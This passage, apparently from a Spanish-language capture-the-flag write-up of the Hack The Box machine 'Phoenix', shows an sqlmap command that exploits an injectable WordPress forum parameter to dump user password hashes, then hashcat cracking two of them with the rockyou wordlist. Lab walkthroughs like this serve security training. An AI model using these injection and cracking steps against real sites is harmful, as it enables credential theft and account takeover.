 Como va demasiado tiempo, voy a aprovecharme de que la base de datos ```wordpress``` tiene siempre una estructura similar para dumpear las tablas que me interesan

<img src="/writeups/assets/img/Phoenix-htb/4.png" alt="">

Dumpeo hashes de usuarios

```null
sqlmap --url "https://phoenix.htb/forum/?subscribe_topic=1%20" -D wordpress -T wp_users -C id,user_pass --dump --batch
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.7.2#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 08:45:33 /2023-04-04/

Database: wordpress
Table: wp_users
[5 entries]
+----+------------------------------------+
| id | user_pass                          |
+----+------------------------------------+
| 1  | $P$BA5zlC0IhOiJKMTK.nWBgUB4Lxh/gc. |
| 3  | $P$B8eBH6QfVODeb/gYCSJRvm9MyRv7xz. |
| 5  | $P$BV5kUPHrZfVDDWSkvbt/Fw3Oeozb.G. |
| 6  | $P$BJCq26vxPmaQtAthFcnyNv1322qxD91 |
| 7  | $P$BzalVhBkVN.6ii8y/nbv3CTLbC0E9e. |
+----+------------------------------------+
```

Los crackeo con ```hashcat```

```null
hashcat hash /usr/share/wordlists/rockyou.txt --show
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

400 | phpass | Generic KDF

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

$P$BV5kUPHrZfVDDWSkvbt/Fw3Oeozb.G.:superphoenix
$P$BA5zlC0IhOiJKMTK.nWBgUB4Lxh/gc.:phoenixthefirebird14
```
